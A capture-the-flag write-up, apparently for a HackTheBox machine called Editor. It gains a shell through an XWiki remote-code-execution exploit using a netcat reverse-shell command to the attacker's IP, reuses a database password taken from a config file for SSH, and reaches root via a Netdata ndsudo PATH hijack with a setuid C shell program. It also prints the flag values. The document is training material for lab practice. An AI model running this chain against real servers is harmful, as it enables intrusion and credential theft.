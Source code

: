 ```yaml
---
layout: default
title: Editor
---
```


## TL;DR

We get `RCE` using known exploit in `XWiki`. Then we find oliver's password inside `hibernate.cfg`. We escalate to root using known exploit on `ndsudo` binary.

### Recon

we start with `nmap`, using this command:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
8080/tcp open  http    Jetty 10.0.20
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-webdav-scan: 
|   Server Type: Jetty(10.0.20)
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty(10.0.20)
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![nmap results](image.png)

First, we need to add `editor.htb` and `wiki.editor.htb` to our `/etc/hosts`:
```
10.10.11.80     editor.htb
10.10.11.80     wiki.editor.htb
```

### Get shell

We can see the version of the xwiki is `XWiki Debian 15.10.8`, and when googling for exploits we can see this github repo [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893).

Let's download the script and try to get RCE, or in this case reverse shell:
```bash
curl https://raw.githubusercontent.com/gunzf0x/CVE-2025-24893/refs/heads/main/CVE-2025-24893.py -o CVE-2025-24893.py
python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.14.168 770 -e /bin/bash'
```

![reverse shell](image-1.png)

now let paste the regular commands, to make the shell more nice looking:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Achieve password

I started by searching for all config files, then i found 2 files, and one of them contained a password:
```bash
xwiki@editor:/usr/lib/xwiki$ find . -name "*.cfg*" 2>/dev/null
./WEB-INF/hibernate.cfg.xml
./WEB-INF/xwiki.cfg
xwiki@editor:/usr/lib/xwiki$ cat ./WEB-INF/xwiki.cfg | grep pass
# xwiki.superadminpassword=system
xwiki@editor:/usr/lib/xwiki$ cat ./WEB-INF/hibernate.cfg.xml | grep pass
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>

```
So, `theEd1t0rTeam99` is a password, hibernate is used to store credentials for databases.

![get password](image-2.png)

and these are the relevant lines from `hibernate.cfg.xml`:
```xml
<!-- Configuration for the default database.
         Comment out this section and uncomment other sections below if you want to use another database.
         Note that the database tables will be created automatically if they don't already exist.

         If you want the main wiki database to be different than "xwiki" (or the default schema for schema based
         engines) you will also have to set the property xwiki.db in xwiki.cfg file
    -->
    <property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>
    <property name="hibernate.connection.username">xwiki</property>
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.driver_class">com.mysql.cj.jdbc.Driver</property>
    <property name="hibernate.dbcp.poolPreparedStatements">true</property>
    <property name="hibernate.dbcp.maxOpenPreparedStatements">20</property>

    <property name="hibernate.connection.charSet">UTF-8</property>
    <property name="hibernate.connection.useUnicode">true</property>
    <property name="hibernate.connection.characterEncoding">utf8</property>
```

we can try and use this password `theEd1t0rTeam99` to login to oliver's account, we saw earlier, using `ssh oliver@$target`:
```bash
oliver@editor:~$ cat user.txt 
a5ade4f32ae5587972bafe53e64f9fc8
```

![ssh to oliver](image-4.png)

### Privilege Escalation

We first start with `sudo -l`, but then we get:
```
Sorry, user oliver may not run sudo on editor.
```

Okay, let's search for setuid file that are owned by `root`, using this command, the `\4000` is like `+4000`, the way to check if file has this setuid bit on:
```bash
oliver@editor:~$ find / -user root -perm /4000 2>/dev/null
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```

I asked chatGPT for any well known PE vulnerabilites, and he pointed to me at `ndsudo`. I found this repo [https://github.com/dollarboysushil/CVE-2024-32019-Netdata-ndsudo-PATH-Vulnerability-Privilege-Escalation](https://github.com/dollarboysushil/CVE-2024-32019-Netdata-ndsudo-PATH-Vulnerability-Privilege-Escalation), followed the instructions to make `nvme` using this C code:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

I compiled in my local machine because there is no `gcc` on the remote machine, simply used `gcc nvme.c -o nvme`:

![compiling and uploading](image-5.png)

Then, in the remote machine i donwloaded the `nvme` file to `/tmp/nvme`, changed the `$PATH` variable:
```bash
export PATH=/tmp:$PATH
``` 

and just execute the vuln setuid binary:
```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

![get root flag](image-6.png)

**User Flag:*****`a5ade4f32ae5587972bafe53e64f9fc8`***

**Root Flag:*****`1965deafd9071debf5f12009232cf108`***
